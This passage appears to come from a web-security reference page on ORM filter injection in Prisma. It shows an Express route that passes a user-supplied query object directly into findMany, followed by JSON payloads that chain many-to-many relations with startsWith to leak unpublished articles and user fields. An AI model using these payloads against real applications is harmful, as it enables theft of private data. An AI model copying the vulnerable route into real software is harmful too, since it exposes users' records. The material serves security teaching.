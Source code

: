 > [!CAUTION]
> Using operations like `startsWith` it's possible to leak information.

- **Many-to-many relational filtering bypassing filtering:**

```javascript
app.post("/articles", async (req, res) => {
  try {
    const query = req.body.query
    query.published = true
    const posts = await prisma.article.findMany({ where: query })
    res.json(posts)
  } catch (error) {
    res.json([])
  }
})
```

It's possible to leak not published articles by lopping back to the many-to-many relationships between `Category` -\[\*..\*]-> `Article`:

```json
{
  "query": {
    "categories": {
      "some": {
        "articles": {
          "some": {
            "published": false,
            "{articleFieldToLeak}": {
              "startsWith": "{testStartsWith}"
            }
          }
        }
      }
    }
  }
}
```

It's also possible to leak all the users abusing some loop back many-to-many relationships:

```json
{
  "query": {
    "createdBy": {
      "departments": {
        "some": {
          "employees": {
            "some": {
              "departments": {
                "some": {
                  "employees": {
                    "some": {
                      "departments": {
                        "some": {
                          "employees": {
                            "some": {
                              "{fieldToLeak}": {
                                "startsWith": "{testStartsWith}"
                              }
                            }
                          }
                        }
                      }
                    }
                  }
```